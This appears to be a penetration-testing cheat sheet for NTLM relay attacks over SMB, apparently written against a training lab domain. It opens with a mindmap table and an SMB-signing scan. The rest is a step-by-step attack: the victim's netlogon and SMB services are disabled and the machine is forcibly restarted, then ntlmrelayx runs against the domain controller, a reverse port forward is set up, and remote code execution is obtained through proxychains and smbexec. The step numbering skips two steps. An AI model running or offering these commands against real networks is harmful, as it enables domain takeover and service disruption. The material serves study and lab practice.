

## What is all about?
If a server sends out SMB connections, you can use abuse NTLM relaying to gain a foothold from these SMB connections. 
This attack works by forcing the server to stop SMB traffic and restart the server to send all traffic to the attacker. The attacker can then relay the session where they want.


## MindMap


| Method                    | Explanation                                                                                                                                                                                                                                                                                                                                                                                                                         |
| ------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Coercion Method`         | These techniques induce/coerce the client into performing authentication, including `AiTM` and `authentication coercion` (which we will discuss later).                                                                                                                                                                                                                                                                             |
| `Incoming NTLM auth over` | These are the protocols that the client uses to perform `NTLM` authentication, including `HTTP` (`1`) and `SMB` (`2`).                                                                                                                                                                                                                                                                                                              |
| `Client-side mitigation`  | These are the client-side mitigations that clients can have to protect against `NTLM` relay attacks, depending on the protocol specified in the `Incoming NTLM auth over` component.                                                                                                                                                                                                                                                |
| `Server-side mitigation`  | These are the server-side mitigations that servers can have to protect against `NTLM` relay attacks, depending on the protocol specified in the `Incoming NTLM auth over` component.                                                                                                                                                                                                                                                |
| `Relayed NTLM auth over`  | These are the protocols that we can relay the `NTLM` authentication received from the client over, including `HTTP`, `HTTPS`, `SMB`, `LDAP`, and `LDAPs`.                                                                                                                                                                                                                                                                           |
| `Post-relay attack`       | These are the post-relay attacks that we can carry out depending on the protocol of the `Relayed NTLM auth over` component. However, reaching this component depends on the two circles belonging to the `Client-side mitigation` and `Server-side mitigation` components. If both are green, the relay attack will work. However, if one is yellow, the relay attack will only work if the server suffers certain vulnerabilities. |

## Prerequisites
Having SMB signing disabled. Check with: `crackmapexec smb IP`
```
└─# crackmapexec smb 10.200.111.0/24
SMB         10.200.111.35   445    PC-FILESRV01     [*] Windows 10.0 Build 17763 x64 (name:PC-FILESRV01) (domain:holo.live) (signing:False) (SMBv1:False)
SMB         10.200.111.31   445    S-SRV01          [*] Windows 10.0 Build 17763 x64 (name:S-SRV01) (domain:holo.live) (signing:False) (SMBv1:False)
SMB         10.200.111.30   445    DC-SRV01         [*] Windows 10.0 Build 17763 x64 (name:DC-SRV01) (domain:holo.live) (signing:False) (SMBv1:False)
```
Install krb stuff: `apt install krb5-user cifs-utils`
You must also disable SMB scan in Responder under **/etc/Responder.conf**

## Attack Metodology
1)Stop netlogon on a victim: 
```
sc stop netlogon
```
2)Stop and disable smb on victim: 
```
sc stop lanmanserver & sc config lanmanserver start= disabled
```
3)Stop and disable LanManserver on victim: 
```
sc stop lanmanworkstation & sc config lanmanworkstation start= disabled
```
4)Restart victim: 
```
shutdown -r -f -t 0
```
5)Start the NTLMrelayx: 
```
impacket-ntlmrelayx -t smb://<DC> -smb2support -socks
```
6)Add a port forwading on a victim(not DC) x.x.x.x.:445 -> YOU: 
```
portfwd add -R -L 0.0.0.0 -l 445 -p 445
```
9)Add NTLMrelayx to /etc/proxychains4.conf: 
```
socks4 127.0.0.1 1080
```
10)Invoke RCE: 
```
proxychains impacket-smbexec -no-pass DOMAIN/USERNAME@IP
```
(the account you can find it at the start of step 6 during the logs in console)